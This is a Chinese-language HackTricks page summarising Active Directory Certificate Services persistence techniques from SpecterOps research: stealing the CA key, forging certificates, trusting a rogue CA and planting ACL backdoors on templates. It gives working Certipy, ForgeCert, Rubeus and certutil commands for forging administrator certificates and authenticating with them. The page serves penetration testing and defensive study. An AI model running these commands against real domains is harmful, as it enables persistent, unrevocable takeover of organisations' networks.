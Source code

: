 # AD CS 域持久性

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** 上**关注我们。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

**这是在 [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf) 中分享的域持久性技术摘要**。查看以获取更多详细信息。

## 使用窃取的 CA 证书伪造证书 - DPERSIST1

如何判断证书是否为 CA 证书？

如果满足以下几个条件，可以确定证书是 CA 证书：

- 证书存储在 CA 服务器上，其私钥由机器的 DPAPI 或硬件（如 TPM/HSM，如果操作系统支持）安全保护。
- 证书的颁发者和主题字段与 CA 的专有名称匹配。
- CA 证书中独占存在“CA 版本”扩展。
- 证书缺少扩展密钥用途（EKU）字段。

要提取此证书的私钥，CA 服务器上的 `certsrv.msc` 工具是通过内置 GUI 支持的方法。然而，此证书与系统中存储的其他证书无异；因此，可以应用 [THEFT2 技术](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) 进行提取。

还可以使用 Certipy 获取证书和私钥，命令如下：
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
在获取了以 `.pfx` 格式的 CA 证书及其私钥后，可以利用类似 [ForgeCert](https://github.com/GhostPack/ForgeCert) 的工具生成有效证书：
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
为了成功进行证书伪造，目标用户必须处于活动状态并能够在Active Directory中进行身份验证。对于像krbtgt这样的特殊帐户进行证书伪造是无效的。
{% endhint %}

这个伪造的证书将在指定的结束日期之前**有效**，并且只要根CA证书有效（通常为5到**10年以上**）。它也适用于**机器**，因此结合**S4U2Self**，攻击者可以在CA证书有效的情况下在任何域机器上**保持持久性**。\
此外，使用此方法生成的**证书**是**无法吊销**的，因为CA不知道它们的存在。

## 信任恶意CA证书 - DPERSIST2

`NTAuthCertificates`对象被定义为在其`cacertificate`属性中包含一个或多个**CA证书**，Active Directory（AD）会使用这些证书。域控制器的验证过程涉及检查`NTAuthCertificates`对象，以查找与认证**证书**的Issuer字段中指定的**CA**匹配的条目。如果找到匹配项，则进行身份验证。

攻击者可以将自签名的CA证书添加到`NTAuthCertificates`对象中，前提是他们控制了这个AD对象。通常，只有**企业管理员**组的成员，以及**域管理员**或**林根域的管理员**被授予权限修改此对象。他们可以使用`certutil.exe`编辑`NTAuthCertificates`对象，命令为`certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`，或者使用[**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool)。

当与先前概述的使用ForgeCert动态生成证书的方法结合使用时，这种能力尤为重要。

## 恶意配置错误 - DPERSIST3

通过对AD CS组件的安全描述符进行修改，攻击者有很多机会实现**持久性**。在"[域提升](domain-escalation.md)"部分描述的修改可以被具有提升访问权限的攻击者恶意实施。这包括向敏感组件（例如**CA服务器的AD计算机**对象、**CA服务器的RPC/DCOM服务器**、**`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`**中的任何后代AD对象或容器（例如证书模板容器、证书颁发机构容器、NTAuthCertificates对象等）、默认或组织授予控制AD CS权限的**AD组**（例如内置的Cert Publishers组及其任何成员））添加“控制权限”（例如WriteOwner/WriteDACL等）。

恶意实施的一个例子是，攻击者在域中具有**提升权限**，向默认的**`User`**证书模板添加**`WriteOwner`**权限，并将自己设置为权限的主体。为了利用这一点，攻击者首先会将**`User`**模板的所有权更改为自己。随后，在模板上将**`mspki-certificate-name-flag`**设置为**1**，以启用**`ENROLLEE_SUPPLIES_SUBJECT`**，允许用户在请求中提供主题备用名称。随后，攻击者可以使用**模板**进行**注册**，选择一个**域管理员**名称作为备用名称，并利用获得的证书进行DA身份验证。

